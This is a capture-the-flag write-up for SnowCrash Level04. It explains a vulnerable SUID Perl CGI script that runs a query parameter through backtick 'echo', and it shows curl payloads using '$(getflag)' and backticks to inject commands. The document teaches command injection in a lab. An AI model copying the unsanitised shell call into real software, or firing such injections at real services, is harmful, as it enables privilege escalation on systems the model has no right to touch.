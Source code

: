 # Level04
This time we are given a Perl script

![image](https://github.com/user-attachments/assets/5a276f3c-077c-4f13-b572-df191e644603)

![image](https://github.com/user-attachments/assets/afec7e89-9de1-4216-9479-25f7c7e55e12)

It has the SUID bit set like the last time. So we will try to exploit the priviliges of flag04 somehow. Let's run it,

![image](https://github.com/user-attachments/assets/085d513d-7dc6-4b2c-89ef-8574d0d3f4c1)

What is it trying to achieve exactly? Let's read the file contents:

![image](https://github.com/user-attachments/assets/c888db70-7096-4545-a2ad-dbf77416d8d4)

```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
After a crash course in perl [subroutines](https://www.tutorialspoint.com/perl/perl_subroutines.htm) and the [CGI](https://www.perl.com/article/perl-and-cgi/) module we see that we are provided with a neatly vulnerable code.

First let's discuss some syntax. The [**qw**](https://www.geeksforgeeks.org/perl-qw-operator/)(quote-word) operator in Perl is used to extract each element of the given string as it is in an array of elements in single-quote. For example: _qw(Hello world) becomes ('Hello', 'world')_

In our case it is used to import a list of functions from the CGI module. This list consists of only one element though...Anyways, the function we imported is `param` and we will come back to it later

In Perl we can pass various arguments to a subroutine like you do in any other programming language and they can be acessed inside the function using the special array `@_`. Thus the first argument to the function is in $_[0], the second is in $_[1], and so on.

In our script we have a subroutine called `x`. Within **x** a variable called `y` is defined. **y** takes the value of the first argument passed to **x**, as indicated by `$y = $_[0]` . Then it prints the value of **y** with echo.

Rest of the stuff requires us to understand the CGI module. 

CGI stands for [Common Gateway Interface](https://datatracker.ietf.org/doc/html/rfc3875), it’s a protocol for executing scripts via web requests, and in the late 1990’s was the main way to write dynamic programs for the Web. It’s also the name of a Perl module that is now deprecated.

The first way to pass data is with the **query string**, (the portion of a URI beginning with ?), which you see in URLs like `https://example.com/?foo=bar`. This uses the “GET” request method, and becomes available to the program as $ENV->{QUERY_STRING}, which in this case is foo=bar (CGI programs receive their arguments as environment variables). But CGI provides the `param` method which parses the query string into key value pairs, so you can work with them like a hash.

Essentialy we have a script that is able to handle [HTTP requests](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods). Subroutine x is called with the argument `param("x")`, here the `param()` function retrieves the value of parameter x from the HTTP request. And then this value is printed.

Easy enough right? We can start interacting with the script in a meaningful way now. Let's give the server some input to work with.

`level04@SnowCrash:~$ curl http://localhost:4747?x=hello`

![image](https://github.com/user-attachments/assets/58986977-11e9-4d9c-b7c5-f2a7a0597748)

If proper input sanitization is not made this script could be vulnerable to command injections. Since it runs with the priviliges of `flag04` the consequences could be severe. Let's exploit!

Our goal is to run `getflag` as `flag04` somehow. A naive first attempt would be to simply try `level04@SnowCrash:~$ curl http://localhost:4747?x=getflag`

![image](https://github.com/user-attachments/assets/1cb59aef-72ea-4ac6-ad08-f7d02426af4f)

This is the same as running `echo getflag`, it doesn't run `getflag` but simply prints it out as any other string. How do we subsitute commands in shell-scripting? By using **$()** or **backticks**!

![image](https://github.com/user-attachments/assets/ae0eac71-be2a-4d01-b18e-500eac4988ce)

This didn't exactly go as intended because `getflag` was executed as level04 before curl and the resulting string was put as parameters in the URL.

However if I use single quotes everything inside will be taken as literally and no command substitution will happen (at least as far as curl is conerned): `curl 'http://localhost:4747?x=$(getflag)'`

![image](https://github.com/user-attachments/assets/f314e30b-c37a-4d4c-af35-940a683f8e3e)

Yay! But how did this work if single quotes interpert the strings literally? Well that's the vulnerable script's fault. 

```
print `echo $y 2>&1`;
````

becomes,

```
print `echo $(getflag) 2>&1` ;
```

And now getflag will run with the privileges of the user under which the Perl CGI script is executed. Then echo will print out the result.

**Alternatively** we can make use of backticks too:

```
level04@SnowCrash:~$ curl 'http://localhost:4747/level04.pl?x=`getflag`'
```

![image](https://github.com/user-attachments/assets/390db6a7-889b-4a9b-99f1-7a325288c15b)

![image](https://github.com/user-attachments/assets/f252564f-cfb3-4278-976d-06e83465f6b9)

_Fin_
